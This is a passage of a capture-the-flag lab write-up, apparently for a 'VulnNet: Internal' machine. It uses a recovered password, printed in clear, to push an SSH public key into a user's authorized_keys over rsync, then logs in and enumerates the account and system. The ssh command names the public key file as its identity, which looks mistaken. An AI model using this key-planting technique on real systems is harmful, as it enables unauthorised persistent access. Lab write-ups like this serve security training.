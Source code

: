 ```powershell
4 -rw-------  1 kali lxd    38 Feb  6  2021 user.txt
```

> **SSH Connection with Remote Synchronization (RSYNC)**
> 

`cp /root/.ssh/id_rsa.pub .`

`rsync -ahv ./id_rsa.pub rsync://rsync-connect@$target_ip:873/files/sys-internal/.ssh/authorized_keys --inplace --no-o --no-g`

```powershell
Password: Hcg3HP67@TW@Bc72v
sending incremental file list
id_rsa.pub

sent 657 bytes  received 35 bytes  51.26 bytes/sec
total size is 563  speedup is 0.81
```

`chmod 600 id_rsa.pub`

`ssh -i id_rsa.pub sys-internal@$target_ip -p 22`

```powershell
sys-internal@vulnnet-internal:~$ whoami
sys-internal
sys-internal@vulnnet-internal:~$ id
uid=1000(sys-internal) gid=1000(sys-internal) groups=1000(sys-internal),24(cdrom)
sys-internal@vulnnet-internal:~$ pwd
/home/sys-internal

sys-internal@vulnnet-internal:~$ dpkg --version
Debian 'dpkg' package management program version 1.19.0.5 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.
sys-internal@vulnnet-internal:~$ uname -a
Linux vulnnet-internal 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

sys-internal@vulnnet-internal:~$ ls -lsa /home
total 12
4 drwxr-xr-x  3 root         root         4096 Feb  1  2021 .
4 drwxr-xr-x 24 root         root         4096 Feb  6  2021 ..
4 drwxr-xr-x 18 sys-internal sys-internal 4096 Feb  6  2021 sys-internal
sys-internal@vulnnet-internal:~$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
sys-internal:x:1000:1000:sys-internal,,,:/home/sys-internal:/bin/bash

sys-internal@vulnnet-internal:~$ groups
sys-internal cdrom
sys-internal@vulnnet-internal:~$ getent group cdrom
cdrom:x:24:sys-internal

sys-internal@vulnnet-internal:~$ 
```
